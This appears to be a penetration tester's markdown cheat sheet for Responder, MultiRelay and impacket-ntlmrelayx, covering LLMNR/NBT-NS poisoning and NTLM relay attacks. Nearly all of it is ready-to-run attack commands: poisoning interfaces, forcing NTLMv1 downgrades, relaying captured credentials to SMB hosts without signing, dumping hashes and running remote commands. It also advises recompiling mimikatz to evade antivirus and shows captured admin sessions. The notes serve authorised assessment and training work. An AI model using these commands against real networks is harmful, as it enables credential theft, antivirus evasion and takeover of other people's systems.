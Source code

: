# Responder
Cannot use in the OSCP Exam. Fun to use on assessments.
Note: Multirelay.py does not work in python3 since the UserDict library has been depricated

[Source](https://github.com/lgandx/Responder)

## Tools in Responder: 

Location: `/usr/share/Responder/tools`

## Make changes to config to turn off services:

`nano /usr/share/responder/Responder.conf`

## Configuring MultiRelay
In Kali Linux: 
1. `pip install pycryptodome`
2. Install Mingw and create multi relay binaries:
```
sudo apt-get install gcc-mingw-w64-x86-64
sudo x86_64-w64-mingw32-gcc ./MultiRelay/bin/Runas.c -o ./MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv
sudo x86_64-w64-mingw32-gcc ./MultiRelay/bin/Syssvc.c -o ./MultiRelay/bin/Syssvc.exe -municode
```
4. python3 MultiRelay.py
```
Usage: 
responder-MultiRelay -t 10.20.30.40 -u Administrator lgandx admin
responder-MultiRelay -t 10.20.30.40 -u ALL

Options:
  --version             show program's version number and exit
  -h, --help            show this help message and exit
  -t 10.20.30.45        Target server for SMB relay.
  -p 8081               Additional port to listen on, this will relay for
                        proxy, http and webdav incoming packets.
  -u, --UserToRelay     Users to relay. Use '-u ALL' to relay all users.
  -c whoami, --command=whoami
                        Single command to run (scripting)
  -d, --dump            Dump hashes (scripting)
```

## Starting Responder
- `responder -I [Interface] -A`
- `responder -I [Interface] -i [IP Address] or -e [External IP] -A`

### Starting Responder in Basic Authentication Mode
- `responder -I [Interface] -wdF -b`

### Force NTLM Authentication to version 1 instead of version 2
- `responder -I [Interface] -wdF --lm --disable-ess`

### External IP Poisoning
- `responder -I [Interface] -e 172.21.1.2`

### DNS Injection in DHCP Responses
- `responder -i [interface] -D`

## Using Responder-RunFinger to verify if SMB Signing is not enabled
- `responder-RunFinger -i 172.21.0.0/24`
- `python3 RunFinger.py -i 172.21.0.0/24`

## Using Responder-MultiRelay
Tips:
Multirelay uses the default version of mimikatz and it can easily flagged by AV. It is recommend to compile your own custom version and use it with mutlirelay.
Do not run multirelay against targets that have smb message_signing enabled:

- `responder-Multirelay -t 172.21.0.0 - u ALL`
- `python3 Multirelay.py -t 172.21.0.0 -u ALL`

## Using Responder with Impacket-Ntlmrelayx
NtlmRelayX is an impacket script that allows you to conduct NTLM Relay Attacks, by creating an SMB and HTTP server and relaying credentials to various different protocols (SMB, HTTP, LDAP, etc.).

1. When you are using responder to capture challenges and relay them to ntlmrelayx you will need to turn off HTTP and SMB in the `responder.conf` file. Also have a list of what systems are running smb and have smb signing disabled.

2. Set up a socks proxy on port 1080. This socks proxy will successfully relay the traffic to ntlmrelayx. 
- `sudo nano /etc/proxychains4.conf`
```
[ProxyList]
# NtlmRelayX Socks Proxy
socks4 127.0.0.1 1080
# Other Proxies
```
3. Run Responder and NtlmRelayX to watch the magic happen:
- `sudo Responder -I [Interface]`
- `impacket-ntlmrelayx -socks -smb2support -tf smb-targets.txt`
- `ntlmrelayx.py -socks -smb2support -tf smb-targets.txt`

To view a full list of captured sessions from NtlmRelayX
```
ntlmrelayx> socks
Protocol  Target          Username                  Port
--------  --------------  ------------------------  ----
SMB       172.21.48.38   SPAWN/MSIMMONS            445
SMB       172.21.48.230  FAERIE/ADMINISTRATOR      445
SMB       172.21.48.230  FAERIE/ALSIMMONS          445
```


## Check for systems with SMB Signing not enabled

- `python3 RunFinger.py -i 172.21.0.0/24`

